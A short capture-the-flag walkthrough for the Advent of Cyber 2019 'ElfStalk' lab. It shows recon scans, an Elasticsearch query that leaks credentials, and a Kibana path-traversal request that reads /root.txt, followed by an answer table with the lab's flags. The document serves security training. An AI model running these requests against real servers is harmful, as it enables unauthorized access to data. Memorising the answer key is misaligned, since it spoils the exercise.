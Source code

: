 # Advent of Cyber 01 - 2019
# Day 24
# ElfStalk


> Machine IP : `10.10.241.99`

> Scanning using the nmap :
```
nmap -A -T5 10.10.241.99 -oN nmap.txt

```
> Directory search :
```
gobuster dir -u http://10.10.241.99:9200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php | tee directory.txt

```
> search for the following url :
```
http://10.10.241.99:9200/_search?q=password
```
> found credentials : `username is l33tperson and password is 9Qs58Ol3AXkMWLxiEyUyyf`

> goto the following link : `http://10.10.241.99:5601/app`

> for the flag we have to go to the following link : 
```
10.10.241.99:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../root.txt

```

> now look at the refference error for root.txt file

| Que$t1on$ | An$wer$ |
|-----------|---------|
| Find the password in the database | 9Qs58Ol3AXkMWLxiEyUyyf |
| Read the content of the /root.txt file | someELKfun |
